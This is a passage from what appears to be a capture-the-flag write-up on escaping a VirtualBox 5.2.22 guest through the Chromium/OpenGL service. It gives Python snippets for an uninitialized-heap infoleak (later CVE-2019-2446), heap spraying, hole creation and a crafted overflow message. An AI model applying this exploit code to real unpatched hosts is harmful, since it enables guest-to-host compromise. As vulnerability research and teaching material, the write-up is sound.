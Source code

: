 As we are targeting *VirtualBox* v5.2.22, it is not vulnerable to [CVE-2018-3055](<https://www.zerodayinitiative.com/advisories/ZDI-18-684/>) which got patched in v5.2.20. This vulnerability was exploited to leak a  `CRConnection` address, as you can see [here](<https://github.com/niklasb/3dpwn/blob/master/CVE-2018-3055%2B3085/exploit.py#L24>).  So what? Should we use a new infoleak for the sake of the challenge? Or redesign the exploitation strategy?

Surprisingly, the code mentioned above was still able to leak our desired object even in v5.2.22! How is it possible? Was it not fixed properly? If we take a close, we see that the allocated object has a size of 0x290 bytes, whereas the offset to the connection is at `OFFSET_CONN_CLIENT`, which is 0x248. That's not really out-of-bounds!

```python
msg = make_oob_read(OFFSET_CONN_CLIENT)
leak = crmsg(client, msg, 0x290)[16:24]
```

Interestingly, this worked due to an uninitialized memory bug. Namely, the method `svcGetBuffer()` was requesting heap memory to store the message from guest. However, it didn't clear the buffer. Hence, any API, that was returning back data of the message buffer, could be abused to leak valuable information of the heap to the guest. I assumed that Niklas knew about this bug, hence I decided to use it to solve the challenge. Indeed, a few weeks after the competition, a patch to this bug was pushed and was assigned [CVE-2019-2446](<https://www.zerodayinitiative.com/advisories/ZDI-19-046/>).

#### Heap spraying

We can spray the heap with `CRVBOXSVCBUFFER_t` using `alloc_buf()` as follows:

```python
bufs = []
for i in range(spray_num):
    bufs.append(alloc_buf(self.client, spray_len))
```

Empirically, I found out that by choosing `spray_len = 0x30` and `spray_num = 0x2000`, their buffers will eventually be consecutive, and the buffer that `pData` is pointing to, is adjacent to an other `CRVBOXSVCBUFFER_t`.

Next, we want to make a hole in the allocations, such that we can occupy it with our evil message.

This is achieved by sending the command `SHCRGL_GUEST_FN_WRITE_READ_BUFFERED` to host, where `hole_pos = spray_num - 0x10`:

```python
hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [bufs[hole_pos], "A" * 0x1000, 1337])
```

See the implementation of this command at `src/VBox/HostServices/SharedOpenGL/crserver/crservice.cpp`.

#### The first overflow

Now that we have carefully set up the constellation of the heap, we are ready to allocate our message buffer and trigger the overflow as follows:

```python
msg = (pack("<III", CR_MESSAGE_OPCODES, 0x41414141, 1)
        + '\0\0\0' + chr(CR_EXTEND_OPCODE)
        + 'aaaa'
        + pack("<I", CR_SHADERSOURCE_EXTEND_OPCODE)
        + pack("<I", 0)    # shader
        + pack("<I", 1)    # count
        + pack("<I", 0)    # hasNonLocalLen
        + pack("<I", 0x22) # pLocalLength[0]
        )
crmsg(self.client, msg, spray_len)
```
